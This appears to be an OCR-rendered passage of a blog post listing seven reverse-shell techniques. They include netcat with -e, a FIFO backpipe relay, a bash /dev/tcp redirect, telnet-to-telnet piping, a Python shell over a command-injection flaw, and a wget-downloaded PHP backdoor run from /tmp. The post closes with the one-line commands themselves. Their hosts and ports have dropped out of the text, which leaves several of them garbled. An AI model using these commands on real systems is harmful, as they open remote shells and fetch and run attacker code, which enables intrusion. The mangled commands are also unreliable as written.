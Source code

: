     images\1-1.png

    #2. netcat with GAPING_SECURITY_HOLE disabled:

    This is a little trick that Ed Skoudis tweeted about in November of last year, but I haven’t seen it widely publicized. It is based on the common technique used to build netcat relays. When the GAPING_SECURITY_HOLE is disabled, which means you don’t have access to the ‘-e’ option of netcat, most people pass on using netcat and move to something else. Well this just isn’t necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to /bin/bash back into netcat. Sounds confusing right? The following image should clear things up.

    images\1-2.png

    #3. netcat without netcat:

    I love “hacks” that use features of the operating system against itself. This is one of those “hacks”. It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system. It’s not always available, but can be quite handy when it is.

    images\1-3.png

    #4. netcat without netcat or /dev/tcp:

    /dev/tcp not available either? Just use telnet with technique #2.

    images\1-4.png

    #5. telnet-to-telnet:

    I’m not sure why you’d use this technique, but it’s an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

    images\1-5.png

    #6. RCE shell:

    On this one I’m cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the ” tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.

    images\1-6.png

    #7. PHP reverse shell via interactive console:

    The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

    images\1-7.png

    #1
    nc -e /bin/bash
    #2
    mknod backpipe p; nc 0backpipe
    #3
    /bin/bash -i > /dev/tcp// 0&1
    #4
    mknod backpipe p; telnet 0backpipe
    #5
    telnet | /bin/bash | telnet
    #7
    wget -O /tmp/bd.php && php -f /tmp/bd.php
